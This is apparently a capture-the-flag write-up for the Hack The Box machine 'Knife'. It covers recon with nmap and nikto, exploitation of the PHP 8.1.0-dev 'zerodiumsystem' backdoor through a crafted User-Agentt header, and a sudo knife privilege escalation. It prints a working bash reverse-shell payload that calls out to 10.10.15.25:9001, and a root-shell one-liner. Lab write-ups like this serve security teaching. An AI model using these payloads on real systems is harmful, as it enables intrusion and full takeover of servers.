

# knife

## nmap recon

```bash
Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-30 22:14 CEST
Nmap scan report for knife.htb (10.10.10.242)
Host is up (0.053s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 be:54:9c:a3:67:c3:15:c3:64:71:7f:6a:53:4a:4c:21 (RSA)
|   256 bf:8a:3f:d4:06:e9:2e:87:4e:c9:7e:ab:22:0e:c0:ee (ECDSA)
|_  256 1a:de:a1:cc:37:ce:53:bb:1b:fb:2b:0b:ad:b3:f6:84 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title:  Emergent Medical Idea
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 49.57 seconds
```

## website

The website seems a normal http website, [gobuster][1] didn't find nothing usefull.
So we can try scanning the server with `nikto` to see if there is something exploitable

```bash
nikto -host http://knife.htb
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          10.10.10.242
+ Target Hostname:    knife.htb
+ Target Port:        80
+ Start Time:         2021-06-30 22:51:23 (GMT2)
---------------------------------------------------------------------------
+ Server: Apache/2.4.41 (Ubuntu)
+ Retrieved x-powered-by header: PHP/8.1.0-dev
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Web Server returns a valid response with junk HTTP methods, this may cause false positives.
```

Server is running PHP 8.1.0-dev which was released with a backdoor that can be used by adding to the request this header:

`"User-Agentt": "zerodiumsystem('command to excecute');"`

So using burpsuit send a request with this header `User-Agentt: zerodiumsystem("/bin/bash -c 'bash -i >&/dev/tcp/10.10.15.25/9001 0>&1'");"` will give us a reverse shell with user james.



## James

James can run via sudo without password `/usr/bin/knife` that seems to be a CLI for Chef Infra Server.

Knife has an exec functionality that can run Ruby code, so we can try to exploit it using [ruby sudo shell code][2] with this command `sudo knife exec -E 'exec "/bin/bash"'` and we are root.


[//]: #links
[1]: gobuster/knife.txt
[2]: https://gtfobins.github.io/gtfobins/ruby/#sudo
